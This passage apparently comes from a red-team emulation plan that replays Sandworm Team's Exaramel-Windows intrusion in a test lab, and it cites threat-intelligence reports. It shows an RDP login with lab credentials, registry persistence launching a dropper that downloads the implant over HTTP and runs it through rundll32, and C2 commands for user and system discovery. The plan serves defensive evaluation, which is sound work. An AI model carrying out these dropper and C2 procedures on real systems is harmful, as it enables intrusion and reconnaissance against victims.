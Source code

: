 ```bash
xfreerdp +clipboard /u:TESTLAB-VICTIM6\\VICTIM6 /p:"VMT3st#123" /v:192.168.20.74
```

:warning: Keep the gammu-RDP window open.

On login, the fherbert registry persistence will execute the exaramel-windows-dropper (wsmprovav.exe).

The dropper will download Exaramel-Windows over HTTP. The dropper then executes the Exaramel-Windows (wsmprovav.dll) using rundll32.exe.

[Source Code](../../Resources/Exaramel-Windows-Dropper/main.cpp)

:warning: Switch to your control server terminal; you should have a new C2 session from Exaramel-Windows.

Take a screenshot of the new implant session and paste it in Slack.

### :microscope: Cited Intelligence

* https://blog.talosintelligence.com/2017/06/worldwide-ransomware-variant.html

* https://securelist.com/be2-custom-plugins-router-abuse-and-target-profiles/67353/

* https://blog.talosintelligence.com/2018/02/olympic-destroyer.html

* https://www.welivesecurity.com/2017/07/04/analysis-of-telebots-cunning-backdoor/

<br>

## Step 16 - Windows Discovery

:microphone: `voice track`

Using the Exaramel-Windows C2 channel, Sandworm obtains the current username, OS version, performs a recursive file listing, and queries for RDP connections.

### :biohazard: Procedures

Place your cursor on the second pane in the control server window.

Run the following discovery commands:

Get current user.

```bash
# Sandworm Team has collected the username from a compromised host.

./evalsC2client.py --set-task Exaramel-Windows "get-user"
```

[Source Code](../../Resources/Exaramel-Windows/taskhandler/taskhandler.go#L36)

Get Windows version info.

```bash
# Sandworm Team used a backdoor to enumerate information about the infected system's operating system.

./evalsC2client.py --set-task Exaramel-Windows "get-sysinfo"
```
